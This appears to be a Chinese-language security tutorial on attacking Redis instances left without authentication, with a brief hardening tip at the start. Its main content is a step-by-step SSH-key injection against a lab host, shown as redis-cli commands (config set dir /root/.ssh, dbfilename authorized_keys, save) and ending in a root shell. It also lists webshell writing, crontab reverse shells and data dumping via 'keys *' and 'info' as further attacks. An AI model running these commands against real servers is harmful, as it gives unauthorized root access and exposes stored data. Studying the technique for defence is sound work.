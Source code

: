 然而，用户还可以重命名 ~/.ssh，然后新建新的 ~/.ssh 目录和 authorized_keys 文件。要避免这种情况，需要设置 ~./ssh 的 immutable 位权限：
# chattr +i ~/.ssh
 
注意: 如果需要添加新的公钥，需要移除 authorized_keys 的 immutable 位权限。然后，添加好新的公钥之后，按照上述步骤重新加上 immutable 位权限。

0x00 危害
信息泄露

系统信息
redis保存的信息
GetShell

在Web目录中写入webshell
写入SSH公钥直接连接
写入计划任务(corntab)反弹shell

0x02 信息泄露
数据泄露
获取所有的key值 keys *

系统信息泄露
info 命令

可以看到redis的版本、系统内核版本、配置文件路径等信息

0x03 GetShell
在Web目录中写入webshell
前提条件

已知网站目录的绝对路径，并且具有读写权限
写入SSH公钥直接连接
本地生成公钥和私钥
将公钥写入到目标的.ssh文件夹
ssh 连接


写入ssh-keygen公钥
现在下先在本地生成一对密钥
kingkk@ubuntu:~/.ssh$ ssh-keygen -t rsa
这样就可以在~/.ssh目录下生成一对id_rsa、id_rsa.pub



然后连接靶机redis
kingkk@ubuntu:~/test/redis$ redis-cli -h 192.168.85.132           # 连接靶机
192.168.85.132:6379> config set dir /root/.ssh                    # 设置本地存储文件目录
OK
192.168.85.132:6379> config set dbfilename authorized_keys        # 设置本地存储文件名
OK
192.168.85.132:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCjFdA5iENqT7mVAv3kopJZi0jtaDbXq2VwX7AM4Gk8wkAgBjnNGuxP0Tt5Sz0sQY1brgP7pmtTCeXUhPS33qK9RWXHNNuAAnns3c5nTtEuKvZtE+5aFDiVvyjDBhvR9YfzQFc+MgCDNedF6Fe+tzSPxDvqk5hGUoqEgwQS0NQNEIN93qN/qEiCXrUMacy6JS6fa2AC99JO+0LdVB0yMPgW2neJZSoJOYdFdJiW4XSn94aUf/mHmZQbT2VxNHv1nEspyhssTaNzDrBAE60hL91Q+CEO2ir2sSZ95xwJXJQJbeD1HyyiAhwg/ajoBafT45Ae5BjY+cH9a8gCpzXu8Tp7 kingkk@ubuntu\n\n\n"                                  		                           # 设置一个值为id_rsa.pub公钥值
OK
192.168.85.132:6379> save                                         # 存储数据
OK
这样，我们就把公钥写入对方的服务器了，直接用生成的私钥连接即可
kingkk@ubuntu:~/.ssh$ ssh -i id_rsa root@192.168.85.132
Last login: Sun Mar 11 03:50:15 2018 from 172.22.224.117
[root@localhost ~]# id
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
You have new mail in /var/spool/mail/root
